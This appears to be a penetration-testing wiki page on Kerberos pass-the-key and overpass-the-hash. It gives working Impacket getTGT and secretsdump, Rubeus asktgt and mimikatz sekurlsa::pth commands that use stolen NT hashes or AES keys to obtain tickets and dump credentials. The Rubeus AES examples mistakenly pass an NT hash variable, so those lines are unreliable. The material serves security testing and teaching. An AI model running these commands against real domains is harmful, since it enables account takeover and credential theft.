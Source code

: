 # Pass the key

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A Service Ticket (ST) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to [ASREProast](asreproast.md)).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called pass-the-key.

Kerberos offers 4 different key types: DES, RC4, AES-128 and AES-256.

* When the RC4 etype is enabled, the RC4 key can be used. The problem is that the RC4 key is in fact the user's NT hash. Using a an NT hash to obtain Kerberos tickets is called [**overpass the hash**](opth.md).
* When RC4 is disabled, other Kerberos keys (DES, AES-128, AES-256) can be passed as well. This technique is called **pass the key**. In fact, only the name and key used differ between overpass the hash and pass the key, the technique is the same.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [getTGT](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py) (Python) can request a TGT (Ticket Granting Ticket) given a password, hash (`LMhash` can be empty), or aesKey. The TGT will be saved as a `.ccache` file that can then be used by other Impacket scripts.

```bash
# with an NT hash (overpass-the-hash)
getTGT.py -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET

# with an AES (128 or 256 bits) key (pass-the-key)
getTGT.py -aesKey 'KerberosKey' $DOMAIN/$USER@$TARGET
```

Once a TGT is obtained, the tester can use it with the environment variable `KRB5CCNAME` with tools implementing [pass-the-ticket](ptt.md).

An alternative to requesting the TGT and then passing the ticket is using the `-k` option in Impacket scripts. Using that option allows for passing either TGTs or STs. Example below with secretsdump.

```bash
secretsdump.py -k -hashes 'LMhash:NThash' $DOMAIN/$USER@$TARGET
```
{% endtab %}

{% tab title="Windows" %}
On Windows, requesting a TGT can be achieved with [Rubeus](https://github.com/GhostPack/Rubeus) (C#). The ticket will be injected in the session and Windows will natively be able to use these tickets to access given services.

```bash
# with an NT hash
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /rc4:$NThash /ptt

# with an AES 128 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes128:$NThash /ptt

# with an AES 256 key
Rubeus.exe asktgt /domain:$DOMAIN /user:$USER /aes256:$NThash /ptt
```

An alternative to Rubeus is [mimikatz](https://github.com/gentilkiwi/mimikatz) with [`sekurlsa::pth`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/pth).

```bash
# with an NT hash
sekurlsa::pth /user:$USER /domain:$DOMAIN /rc4:$NThash /ptt

# with an AES 128 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes128:$aes128_key /ptt

# with an AES 256 key
sekurlsa::pth /user:$USER /domain:$DOMAIN /aes256:$aes256_key /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](broken-reference).
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://blog.notso.pro/2020-05-09-offops-in-ad-1/" %}

{% embed url="http://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash" %}

{% embed url="https://blog.stealthbits.com/how-to-detect-overpass-the-hash-attacks/" %}
